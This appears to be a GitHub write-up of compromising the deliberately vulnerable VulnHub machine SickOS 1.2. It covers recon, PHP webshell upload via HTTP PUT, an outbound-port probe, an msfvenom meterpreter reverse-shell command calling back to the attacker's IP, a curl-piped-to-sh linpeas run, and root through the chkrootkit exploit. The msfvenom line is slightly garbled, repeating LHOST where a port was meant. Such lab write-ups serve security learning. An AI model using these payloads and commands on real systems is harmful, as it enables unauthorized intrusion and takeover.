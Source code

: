 I will add here my methods to gain root level privileges on SickOS1.2.
After importing machine to my virtualization platform, I run arp-scan --localnet command to find out the ip address of the machine.
It seems our target's ip address is 192.168.146.174.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/4feb2abc-6121-4505-b471-69eab86fd073)
Hence I run a nmap scan to discover open ports and running services.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/20678f86-2d61-4a4a-bcb9-053d1b54407e)
 Port 22 and 80 is running on the target. Hence i run a nikto scan to get further data on the web application.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/bd586bdf-4c6d-472d-91ee-90cfa27e4ca0)

 Output shows us nikto found /test folder that might be interesting and server allows HTTP OPTIONS request that queries the supported methods by the server.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/88887a1f-1c32-46fa-a397-563cb1ac0b1b)

 It seems this is an directory indexing folder.
 to make sure about the finding I run burp and sent an HTTP OPTIONS request to target.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/dd0b1e3e-dda6-46c7-960d-a0d9d0ce9b6d)
 
That's correct, and server respond us with supported functions. HTTP PUT is allowd on the target.
 Let's try with curl to upload a newly created file.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/8d628804-48a6-4351-a887-dc82b598e630)

first time curl gave me error after a short google search, I needed to add an Expect header to my command.
And it worked!
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d75234d3-09ff-4a46-a972-6661e931167d)
 That means, we can upload our malicious webshells to target. I decided to use pentestmonkey's built int php reverse shell that 
 is located at /usr/share/webshells in Kali. I copied to my Desktop, renamed with reverse.php and edited the file with mousepad.(I added attacker IP address)
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/f6718b22-fdee-44d6-a171-2d7edd519e97)
 then uploaded file with curl. After that started a netcat listener to catch incoming connection request on port 1234.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9e954db2-ab2d-4ce9-bd98-d8a6cded0986)

I triggered the file but nothing happened.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/52619901-17f4-4f7d-bdd6-28d6346564ce)
 
 Also created another php payload with msfvenom on port 4444 didn't work as weel. Probably, a kind of firewall was  blocking server's reverse connection packet.
 Hence i decided to use php's shell_exec function to test whether running OS commands possible or not.
 i created a run.php file and uploaded to server . and it worked!

 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/94727201-06b1-46ad-bab7-f4304cf18a3b)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/fc138c58-66d3-43a4-a9a5-7a9f78cb089e)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/da50855c-87d1-436e-906f-e674bb44ca9b)

Hence I wrote a simple bash script to gain an interactive shell.(testnc.sh)

 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/45459a72-cb78-4f84-b14b-b919d38cc6b1)

 with the codes above, i aimed to run an interactive shell commands via my terminal over php shortly.
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/64bed9ff-5d2c-49ec-9c4a-6567f52d9449)

 Hence i moved further and after spending too much time on it i wrote a permitted port detection script(runv1.sh)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/802c7fa5-a096-4dd0-bbd8-438d5e1aaee8)


with these codes, uploaded file will run "command" value on the target system. so target server will send me nc packets(-z) and if the target permits a spesific port, we'll learn it.
let's run it and see the result. After execution:
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/594f35d6-4ce2-4d30-8ff5-ef34cefcfc3e)


result showed me, I can use port 443 and port 8080 to get reverse shell.
to use metasploit framework, i created a php payload with msfvenom.
#msfvenom -p /php/meterpreter/reverse_tcp LHOST=192.168.146.164 LHOST=443 -f raw -o meter.php
and uploaded with curl and started a multi handler listener.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/9031c6dc-d54e-4357-8fbf-6fb589d5a5f3)


![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/10718ea5-bb0d-46fc-9cd1-dca6771b5cff)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/74d344f2-da7c-459f-93cf-6b45100d48a1)
 now i'll run meter.php file via browser.
 
 ![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/d8e1ab2d-772b-4a37-bd89-90a80f714426)

then we've the session but we need to escalate our privileges.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/86a15ab1-e33b-4353-88ba-9b4666faebf0)

first i run metasploit's exploit suggester but nothing found, then i downloaded linepeas script and run on the target.
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
it gave lots of information about the local vulnerabilities and searched alot on all of them. also i tried dirty cow exploits but didn't work in my case.
linepeas outputed a chkrootkit vulnerability that is exist in metasploit and i used it. Remember, we had already an active meterpreter session.

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/dea6ddc2-4bf6-471b-a744-9fed456a856f)


![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/c5e81087-ace7-4e75-a438-886b8d0e3e3a)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/1db4377c-ef92-4190-b0bb-3607e8be2fce)

finally we're root and let's read the flag and active rule.
![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/b0fec40f-6a4f-4ca5-88c2-e8b41d94b58b)

![image](https://github.com/harunsvnc/SickOS1.2/assets/75423540/000f74ed-fb53-4457-809c-c725f11afeea)

Thanks to @vulnhub and D4rk for this challenge.

